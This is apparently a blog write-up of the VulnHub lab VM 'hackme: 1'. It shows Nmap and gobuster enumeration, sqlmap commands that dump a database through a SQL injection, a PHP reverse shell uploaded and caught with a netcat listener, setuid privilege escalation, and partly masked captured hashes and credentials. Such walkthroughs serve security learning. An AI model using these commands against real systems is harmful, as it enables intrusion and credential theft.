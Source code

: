 [VulnHub] hackme: 1
===============
date: 27/Sep/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [hackme: 1](https://www.vulnhub.com/entry/hackme-1,330/). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_vulnhub_hackme/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_vulnhub_hackme/killchain.png.webp)

### TTPs
1\. `80/tcp/http/Apache httpd 2.4.34 ((Ubuntu))`: [exploit_php_fileupload](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [exploit_php_reverseshell](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [privesc_setuid](https://github.com/7h3rAm/writeups#privesc_setuid)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Fri Sep 27 12:01:02 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.hackme/results/192.168.92.180/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.hackme/results/192.168.92.180/scans/xml/_quick_tcp_nmap.xml 192.168.92.180
Nmap scan report for 192.168.92.180
Host is up, received arp-response (0.0022s latency).
Scanned at 2019-09-27 12:01:03 PDT for 11s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:a8:24:d6:09:2f:c9:9a:8e:ab:bc:6e:7d:4e:b9:ad (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD0KQXcUd/+zfBtJFhP+25xVD0f+ujGrlKTw/Ho8wy41nYgrtyHiiscKmJUv7XKAfjC8YImead1E+okzuRvpT1HX3l1xMwfWboty0V3IezTFxYIpUPmqejoC9uSsKxpd5h+vDRwchjCQGZpumuei5QT+OyY7XpdUB3P/lica+QEO2Af4ZFmeOOizRYvabosnbg2rGObbkTbMZVcGdL67ECncSRP5mcjH2cnXqAAiDEs+F9YtR0oRVX8+SqaVXLqrNzIeZxqH8BW1f0O4SPq5tsHiYbCco4yb9iMgnX1EPd981wt40+6D0N3BB1QYciv6RAS4fKCP+Akk2c4tThBGm7t
|   256 ab:e8:4f:53:38:06:2c:6a:f3:92:e3:97:4a:0e:3e:d1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKTgFkEMmekHRtPsKN9f6w7/m1ih/8MraIwM4yIy5/hRW8ct1Ghc6YnhhI0KJGYF6KYiCgyKK97mVEpBVf98O5w=
|   256 32:76:90:b8:7d:fc:a4:32:63:10:cd:67:61:49:d6:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPPEwLR2lULYITB1F789nQ/INIXH6NhMCHK25Z3pJquX
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.34 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.34 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 00:0C:29:49:EA:B5 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 27 12:01:14 2019 -- 1 IP address (1 host up) scanned in 12.51 seconds
```

2\. Here a summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_hackme/openports.png.webp)  

3\. We find quite a few interesting links from the `gobuster` scan and open the `http://192.168.92.180:80/index.php` page to explore the web application further:  
```
gobuster -u http://192.168.92.180:80/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e -k -l -s "200,204,301,302,307,401,403" -x "txt,html,php,asp,aspx,jsp"
  http://192.168.92.180:80/config.php (Status: 200) [Size: 0]
  http://192.168.92.180:80/index.php (Status: 200) [Size: 100]
  http://192.168.92.180:80/index.php (Status: 200) [Size: 100]
  http://192.168.92.180:80/login.php (Status: 200) [Size: 1245]
  http://192.168.92.180:80/logout.php (Status: 302)
  http://192.168.92.180:80/register.php (Status: 200) [Size: 1937]
  http://192.168.92.180:80/server-status (Status: 403) [Size: 302]
  http://192.168.92.180:80/uploads (Status: 301)
  http://192.168.92.180:80/welcome.php (Status: 302)
```

4\. We are redirected to the `http://192.168.92.180:80/login.php` link at every page visit so we try some common credentials and SQLi attempts. When these do not help, we decide to use the registration option which takes us to the `http://192.168.92.180:80/register.php` page. We register a username `foobar` with `foobar` password and get logged in to the web application:  

![writeup.enumeration.steps.4.1](/static/files/posts_vulnhub_hackme/screenshot01.png.webp)  

![writeup.enumeration.steps.4.2](/static/files/posts_vulnhub_hackme/screenshot02.png.webp)  

![writeup.enumeration.steps.4.3](/static/files/posts_vulnhub_hackme/screenshot03.png.webp)  

### Findings
#### Open Ports
```
22/tcp  |  ssh   |  OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.34 ((Ubuntu))
```

## Phase #2: Exploitation
1\. The web application presents an online book catalog with a search box. We run `sqlmap` on this page and find the search function vulnerable to SQLi. We dump contents of `webapphacking` database and find MD5 hashed passwords within `users` table. Most of these passwords are easily cracked but we had to use an online MD5 cracker for the password hash of user `superadmin`:  
```
cat searchform.txt
  POST /welcome.php HTTP/1.1
  Host: 192.168.92.180
  User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://192.168.92.180/welcome.php
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 11
  Cookie: PHPSESSID=a9nbe6ikh8ugo269h3rckltqp1
  DNT: 1
  Connection: close
  Upgrade-Insecure-Requests: 1
  
  search=test
sqlmap -r searchform.txt --dbs --batch
sqlmap -r searchform.txt -D webapphacking --dump-all --batch
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_hackme/screenshot04.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_hackme/screenshot05.png.webp)  

![writeup.exploitation.steps.1.3](/static/files/posts_vulnhub_hackme/screenshot06.png.webp)  

![writeup.exploitation.steps.1.4](/static/files/posts_vulnhub_hackme/screenshot07.png.webp)  

![writeup.exploitation.steps.1.5](/static/files/posts_vulnhub_hackme/screenshot08.png.webp)  

![writeup.exploitation.steps.1.6](/static/files/posts_vulnhub_hackme/screenshot09.png.webp)  

2\. We log in to the web application as user `superadmin` and are presented with file upload functionality. We create a PHP reverse shell file and upload it successfully. There was no need to bypass any kind of upload filters in this case. The location for uploaded files is already known to be `192.168.92.180/uploads/` directory from the `gobuster` scan. We find our uploaded file within this directory and proceeded to get the initial shell:  
```
nc -nlvp 443
192.168.92.180/uploads/rs.php
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_hackme/screenshot10.png.webp)  

![writeup.exploitation.steps.2.2](/static/files/posts_vulnhub_hackme/screenshot11.png.webp)  

![writeup.exploitation.steps.2.3](/static/files/posts_vulnhub_hackme/screenshot12.png.webp)  

![writeup.exploitation.steps.2.4](/static/files/posts_vulnhub_hackme/screenshot13.png.webp)  

## Phase #2.5: Post Exploitation
```
www-data@hackme> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@hackme>  
www-data@hackme> uname
Linux hackme 4.18.0-16-generic #17-Ubuntu SMP Fri Feb 8 00:06:57 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@hackme>  
www-data@hackme> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.180  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fe49:eab5  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:49:ea:b5  txqueuelen 1000  (Ethernet)
        RX packets 486204  bytes 304231697 (304.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 315253  bytes 40538335 (40.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
www-data@hackme>  
www-data@hackme> users
root
hackme
```

## Phase #3: Privilege Escalation
1\. We start with usuals and explore `crontab` and `sudo` permissions. Next is searching for `setuid` files. We find an interesting file `/home/legacy/touchmenot`:  
```
find / -type f -perm -04000 2>/dev/null
  /home/legacy/touchmenot
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_hackme/screenshot14.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_hackme/screenshot15.png.webp)  

2\. We locate this file and check it's permissions manually. We then procced to execute this file and get elevated access:  
```
ls -la /home/legacy/touchmenot
file /home/legacy/touchmenot
/home/legacy/touchmenot
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_hackme/screenshot16.png.webp)  

## Loot
### Hashes
```
hackme:$6$.L285vCy$Hma4mKjGV.sE7ZCFVj2iOkRokX1u3F5DMiTPQFoZPJnQ1kUXLje/bY2BIUQFbYu.8M6BvLML5fAftZOCE........................
```
### Credentials
```
webapp: user1/he..., user2/comma..., user3/p@ssw..., test/testt..., superadmin/Uncrac....., test1/testt...
```

## References
* <https://www.vulnhub.com/entry/hackme-1,330/>  
* <https://www.hackingarticles.in/hackme-1-vulnhub-walkthrough/>  
